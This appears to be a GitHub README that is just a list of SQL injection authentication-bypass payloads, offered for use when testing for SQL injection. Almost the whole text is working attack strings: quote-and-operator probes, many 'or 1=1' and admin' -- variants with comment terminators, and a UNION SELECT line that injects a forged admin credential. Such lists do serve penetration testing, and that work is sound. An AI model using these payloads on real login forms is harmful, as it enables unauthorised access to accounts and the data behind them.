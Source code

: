 
# This Payload List Can be used When Testing For SQL-Injection Attack 

## 1-SQL Injection Authentication Bypass Payloads

     '-'
     ' '
     '&'
     '^'
     '*'
     ' or ''-'
     ' or '' '
     ' or ''&'
     ' or ''^'
     ' or ''*'
     "-"
     " "
     "&"
     "^"
     "*"
     " or ""-"
     " or "" "
     " or ""&"
     " or ""^"
     " or ""*"
     or true--
     " or true--
     ' or true--
     ") or true--
     ') or true--
     ' or 'x'='x
     ') or ('x')=('x
     ')) or (('x'))=(('x
     " or "x"="x
     ") or ("x")=("x
     ")) or (("x"))=(("x
     or 1=1
     or 1=1--
     or 1=1#
     or 1=1/*
     admin' --
     admin' #
     admin'/*
     admin' or '1'='1
     admin' or '1'='1'--
     admin' or '1'='1'#
     admin' or '1'='1'/*
     admin'or 1=1 or ''='
     admin' or 1=1
     admin' or 1=1--
     admin' or 1=1#
     admin' or 1=1/*
     admin') or ('1'='1
     admin') or ('1'='1'--
     admin') or ('1'='1'#
     admin') or ('1'='1'/*
     admin') or '1'='1
     admin') or '1'='1'--
     admin') or '1'='1'#
     admin') or '1'='1'/*
     1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055